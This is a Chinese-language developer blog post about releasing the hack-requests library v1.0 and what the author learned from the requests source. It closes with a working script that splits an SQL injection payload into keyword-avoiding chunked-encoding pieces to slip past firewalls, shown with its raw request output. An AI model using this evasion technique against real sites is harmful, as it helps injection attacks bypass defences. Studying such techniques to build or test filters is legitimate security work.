

# hack-requests v1.0 && 读requests记录

起因是github上有个issue提到不能chunk发包，于是研究了下，还真的难倒我了，于是去阅读http.client源码，requests源码，找到了一点思路，更重要的是发现它们写的是真的好，读代码很享受..

## 先说requests

在网上看到别人读requests源码的笔记，是从changelog history来读的，真的很好，一个软件有个历史记录还真不错~

然后通过requests也学习到了单元测试，之前测试就是写个demo，但是配合pycharm结合单元测试后才觉得真的不错~

之前不知道requests的实现
```python 
r = requests.get("https://x.hacking8.com")
print(r.text)

```

我一直以为r.text是以属性传递的，这意味着你不管访问什么网页，它都会读整个网页的内容，这样是不好的，有时候只需要一个状态码呢？所以hack-requests的返回文本是以函数的形式`text()`、`content()`，在你想读的时候，才会读取全部。

但看了源码后发现是我想多了，它使用了一个很python的语法，使访问变量可以像访问函数一样。。也不太好说清楚，，看代码。。
```python 
class test:
    @property
    def content(self):
        b = b'aaaaaaaaaaa'
        return b
a = test()
print(a.content)

```

输出
```bash 
b'aaaaaaaaaaa'

```

现在看看我还自作聪明的从函数访问…

## hack-requests v1.0

本着拿来主义精神，，hack-requests也吸收了这些优点，我增加`docs`文档目录，用来记录历史版本的提交，也写好了单元测试用例，现在不烦写好后的测试了，一键全搞定。后面的`text()`和`content()`我没有改，主要是兼容之前的语法吧。

同时也解决了`Transfer-Encoding : Chunked`的发包问题，`httpraw`原始发包本来是通过解析参数来发包的，想着趁着1.0发布重构为直接原始发包，于是还看了看`http.client`的源码，发现不行，封装的已经不能原始发包了，想原始发包只能再往底层模块写了，所以放弃了，但是`httpraw`方法相比之前也几乎重写了。

## 分块传输利用

根据`hack-requests`简单编写了一个利用脚本，根据payload内容自动生成分块，chunk_size控制到1-9之内,遇到关键词自动切割
```python 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# @Time    : 2019/3/9 10:21 PM
# @Author  : w8ay
# @File    : auto_build_chunked.py

# 根据payload内容自动生成分块，自动分割关键字
# chunk_size控制到1-9之内,遇到关键词自动切割
import string

import HackRequests
import random


def chunk_data(data, keywords: list):
    dl = len(data)
    ret = ""
    index = 0
    while index < dl:
        chunk_size = random.randint(1, 9)
        if index + chunk_size >= dl:
            chunk_size = dl - index
        salt = ''.join(random.sample(string.ascii_letters + string.digits, 5))
        while 1:
            tmp_chunk = data[index:index + chunk_size]
            tmp_bool = True
            for k in keywords:
                if k in tmp_chunk:
                    chunk_size -= 1
                    tmp_bool = False
                    break
            if tmp_bool:
                break
        index += chunk_size
        ret += "{0};{1}\r\n".format(hex(chunk_size)[2:], salt)
        ret += "{0}\r\n".format(tmp_chunk)

    ret += "0\r\n\r\n"
    return ret


payload = "id=-1' and union select user(),2,3,4,5 from table"
keywords = ['and', 'union', 'select', 'user', 'from']
data = chunk_data(payload, keywords)

raw = '''
POST /post HTTP/1.1
Host: httpbin.org
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Transfer-Encoding: Chunked

{}

'''.format(data)
hack = HackRequests.hackRequests()

r = hack.httpraw(raw)
print(r.text())
print(r.log)

```

将自动生成原始包并发送
``` 
POST /post HTTP/1.1
Host: httpbin.org
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Transfer-Encoding: Chunked

6;AcONM
id=-1'
3;ZTLhm
 an
6;AaqcV
d unio
6;YrkUE
n sele
6;DBY1z
ct use
8;Yi9xr
r(),2,3,
6;ZohEU
4,5 fr
5;Kk4wg
om ta
2;Hf0ns
bl
1;QtXZr
e
0

```

可以看到已正常接收  


## End

我发现那个requests阅读笔记中每章开头总有一段话挺好玩的，以后写sqlmap笔记也可以类似尝试下，嘿嘿
